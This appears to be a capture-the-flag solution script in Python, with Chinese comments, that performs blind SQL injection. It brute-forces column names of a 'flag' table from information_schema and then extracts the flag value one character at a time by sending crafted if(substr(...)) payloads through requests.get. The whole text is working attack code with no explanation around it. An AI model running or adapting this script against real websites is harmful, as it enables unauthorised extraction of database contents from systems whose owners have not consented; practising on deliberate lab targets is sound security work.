 ```py
def column_name():
    list = []
    for k in range(0,3): #判断表里最多有4个字段
        name=''
        for j in range(1,9): #判断一个 字段名最多有9个字符组成
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url=urlOPEN+'if(substr((select column_name from information_schema.columns where table_name="flag"and table_schema= database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' %(k,j,i)
                r=requests.get(url)
                if mark in r.text:
                    name=name+i
                    break
        list.append(name)
    print ('column_name:',list)


column_name()


def get_data():
        name=''
        for j in range(1,50): #判断一个值最多有51个字符组成
            for i in range(48,126):
                url=urlOPEN+'if(ascii(substr((select flag from flag),%d,1))=%d,1,(select table_name from information_schema.tables))' %(j,i)
                r=requests.get(url)
                if mark in r.text:
                    name=name+chr(i)
                    print(name)
                    break
        print ('value:',name)

get_data()
```
